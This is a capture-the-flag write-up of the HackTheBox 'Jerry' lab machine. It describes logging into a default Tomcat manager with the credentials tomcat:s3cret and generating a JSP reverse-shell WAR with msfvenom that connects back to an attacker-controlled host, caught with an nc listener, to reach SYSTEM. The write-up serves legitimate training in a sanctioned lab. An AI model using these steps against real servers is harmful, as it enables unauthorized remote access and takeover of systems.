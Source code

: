 ```yaml
---
title: "Jerry HTB [Easy]"
date: 2020-01-07T11:49:16-05:00
draft: false
---
```


# Jerry is an Easy machine on HackTheBox.eu

**Host Information**  
Hostname: JERRY   
IP Address: 10.10.10.95  

**Service Enumeration**   
NMAP RESULTS:
```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

## Attack Path  

Navigating to http://10.10.10.95:8080/ we find a default Tomcat installation. The manager allows us to upload arbitrary war files, so if we can access it, we can upload a shell to the system.  

Tomcat installations often leverage default credentials for setup, especially if the installation is in its default format as we see when navigating to the homepage. I guessed tomcat:s3cret and that worked (a common default credential for old tomcat), but this can also be derived manually by goign to /manager and clicking cancel, the default password is listed in the example. 

We can create our reverse shell to upload to the manager with

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR IP] LPORT=4444 -f war -o shell.war
```

On your local instance you can catch the shell with:  
```bash
$ nc -lvp 4444
```

Execute the shell by clicking the link created for you when you upload the shell to the tomcat manager. You catch the shell and with a simple "whoami" we find that we are authority / system. This is root on a Windows box so we can now retrieve the root hash. 

